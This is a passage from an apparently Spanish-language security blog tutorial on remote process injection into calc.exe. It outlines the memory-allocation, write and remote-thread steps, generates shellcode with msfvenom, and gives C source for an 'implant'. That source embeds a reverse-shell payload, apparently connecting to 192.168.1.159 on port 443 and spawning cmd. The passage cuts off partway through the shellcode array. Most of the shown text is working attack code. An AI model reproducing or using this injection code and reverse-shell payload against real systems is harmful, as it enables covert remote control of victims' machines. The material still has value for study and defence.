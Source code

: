 <div align="left">
    <img src="https://thespartoos.github.io/assets/img/favicons/RPInjection/VirtuallAllocEx.png">
</div>

Lo siguiente será que deberemos será copiar el payload almacenado de nuestro binario al buffer de memoria del proceso remoto (calc.exe).

<div align="left">
    <img src="https://thespartoos.github.io/assets/img/favicons/RPInjection/WriteProcessMemory.png">
</div>

Por último deberemos de indicar que proceso inicializará el hilo para poder ejecutar el payload.

<div align="left">
    <img src="https://thespartoos.github.io/assets/img/favicons/RPInjection/CreateRemoteThread.png">
</div>

### Generar el shellcode

Ahora necesitamos generar nuestro shellcode, que será el código que posteriormente será ejecutado. Para ello utilizaremos la herramienta &nbsp;`msfvenom`&nbsp; la cual viene de la suite de metasploit en donde será fundamental para generar nuestro shellcode.

![](https://thespartoos.github.io/assets/img/favicons/RPInjection/shellcodeGen.png)

### Codigo final

Una vez generado el shellcode deberemos de indicarlo en el implante.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// nuestra reverse shell [msfvenom]
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x01\x9f"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
```